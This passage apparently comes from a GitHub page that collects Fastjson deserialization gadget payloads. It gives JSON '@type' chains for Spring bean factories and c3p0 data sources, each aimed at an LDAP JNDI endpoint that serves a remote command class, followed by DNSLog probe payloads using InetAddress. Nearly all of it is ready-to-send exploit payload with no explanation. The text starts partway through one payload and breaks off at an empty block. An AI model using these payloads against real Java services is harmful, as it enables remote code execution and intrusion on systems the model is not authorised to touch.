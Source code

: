 ```json
    "properties": {
      "data_source": "ldap://127.0.0.1:23457/Command8"
    }
}
```
SimpleJndiBeanFactory
```json
{
    "@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean",
    "targetBeanName": "ldap://127.0.0.1:23457/Command8",
    "propertyPath": "su18",
    "beanFactory": {
      "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
      "shareableResources": [
        "ldap://127.0.0.1:23457/Command8"
      ]
    }
}
```
DefaultBeanFactoryPointcutAdvisor
```json
{
  "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor",
   "beanFactory": {
     "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
     "shareableResources": [
       "ldap://127.0.0.1:23457/Command8"
     ]
   },
   "adviceBeanName": "ldap://127.0.0.1:23457/Command8"
},
{
   "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"
}
```
WrapperConnectionPoolDataSource
```json
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
    "userOverridesAsString": "HexAsciiSerializedMap:aced000...6f;"
  }
```
JndiRefForwardingDataSource
```json
{
    "@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
    "jndiName": "ldap://127.0.0.1:23457/Command8",
    "loginTimeout": 0
  }
```
InetAddress
```json
{
	"@type": "java.net.InetAddress",
	"val": "http://dnslog.com"
}
```
Inet6Address
```json
{
	"@type": "java.net.Inet6Address",
	"val": "http://dnslog.com"
}
```
URL
```json
```